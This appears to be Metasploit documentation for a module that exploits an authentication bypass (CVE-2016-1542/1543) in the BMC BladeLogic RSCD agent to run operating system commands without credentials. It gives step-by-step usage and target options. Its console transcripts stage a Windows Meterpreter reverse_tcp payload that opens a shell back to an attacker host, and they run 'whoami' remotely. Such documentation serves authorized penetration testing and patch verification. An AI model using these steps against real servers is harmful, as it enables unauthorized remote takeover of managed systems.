 ## Description
This module exploits a weak access control check in the BMC Server Automation RSCD agent that allows arbitrary operating system commands to be executed without authentication.

Affected versions of the BMC RSCD agent fail to enforce authentication controls at the server side enabling a rogue client to send an authentication message, ignore the response, and continue interacting with the agent as though the authentication was successful. This module takes advantage of this vulnerability to execute arbitrary operating system commands using the BMC network shell (NSH) functionality.

The access control vulnerability itself was identified by Olga Yanushkevich of [ERNW](https://www.ernw.de/) and was assigned [CVE-2016-1542](https://www.cvedetails.com/cve/CVE-2016-1542/) and [CVE-2016-1543](https://www.cvedetails.com/cve/CVE-2016-1543/). Further details can be found at the [ERNW Insinuator website](https://insinuator.net/2016/03/bmc-bladelogic-cve-2016-1542-and-cve-2016-1543/).

Technical details of the RCE exploit can be found [here](https://nickbloor.co.uk/2018/01/01/rce-with-bmc-server-automation/) and [here](https://nickbloor.co.uk/2018/01/08/improving-the-bmc-rscd-rce-exploit/).

## Vulnerable Application
The module affects the RSCD agent component of [BMC BladeLogic Server Automation](http://www.bmcsoftware.uk/it-solutions/bladelogic-server-automation.html). The agent is installed on servers managed using BMC BladeLogic Server Automation and listens on TCP port 4750. The vulnerability affects versions 8.x below 8.6 SP1 Patch 2, 8.7 Patch 3, and 8.8. More details on affected versions and the fix can be found from the [BMC Knowledgebase](https://selfservice.bmc.com/casemgmt/sc_KnowledgeArticle?sfdcid=kA214000000dBpnCAE&type=Solution).

## Verification Steps
To use this exploit you will need access to BMC BladeLogic Server Automation.

1. Install the RSCD agent on a host as detailed in the [BMC documentation](https://docs.bmc.com/docs/ServerAutomation/89/agent-installation-overview-653394992.html).
2. Ensure that the RSCD service is running and listening on TCP port 4750.
3. Launch `msfconsole`.
4. Load the module `use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce`.
5. Select the generic command target `set target 3`.
6. Select a generic command payload `set payload cmd/unix/generic` or `set payload cmd/windows/generic`.
6. Set the command to execute `set CMD "echo MSF"` or `set CMD "cmd /c echo MSF"`.
7. Run the exploit `exploit`.

The result should be that the string `MSF` is returned and output.

## Usage Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Automatic
The automatic target causes the module to issue an `agentinfo` request to the target in an attempt to identify the target operating system. If it appears to be a Windows target then the module behaves as though target 1 was selected, otherwise it behaves as though target 2 was selected.

### Target 1: Windows/VBS Stager
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell).

	msf > use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set RHOST 34.239.181.84
	RHOST => 34.239.181.84
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set LHOST 54.164.112.135
	LHOST => 54.164.112.135
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set TARGET 1
	TARGET => 1
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
	PAYLOAD => windows/meterpreter/reverse_tcp
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > exploit
	[*] Exploit running as background job 1.
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) >
	[*] Started reverse TCP handler on 0.0.0.0:4444
	[*] 34.239.181.84:4750 - Command Stager progress -   8.01% done (8099/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  16.03% done (16198/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  24.04% done (24297/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  32.06% done (32396/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  40.07% done (40495/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  48.09% done (48594/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  56.10% done (56693/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  64.11% done (64792/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  72.13% done (72891/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  80.14% done (80990/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  88.16% done (89089/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  96.17% done (97188/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress - 100.00% done (101056/101056 bytes)
	[*] Sending stage (179779 bytes) to 34.239.181.84
	[*] Meterpreter session 1 opened (172.31.58.107:4444 -> 34.239.181.84:56233) at 2018-01-14 00:54:49 +0000

### Target 2: Unix/Linux
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Unix/Linux targets in the same was as target 1.

### Target 3: Generic Cmd
This target can be used with *cmd* payloads to execute operating system commands against the target host.

	msf > use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set RHOST 34.239.181.84
	RHOST => 34.239.181.84
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set TARGET 3
	TARGET => 3
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set PAYLOAD cmd/windows/generic
	PAYLOAD => cmd/windows/generic
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set CMD "cmd /c whoami"
	CMD => cmd /c whoami
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > exploit
	[*] Exploit running as background job 2.
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) >
	[+] 34.239.181.84:4750 - Output
	ip-ac1f1eb2\bladelogicrscd

#### Windows Hosts
When using this module target against Windows hosts, non-powershell command lines are limited to around 8,100 characters and generally have to be prefixed with `cmd /c`.
Powershell commands are executed differently and have a much larger length limit of around 32,700 characters.
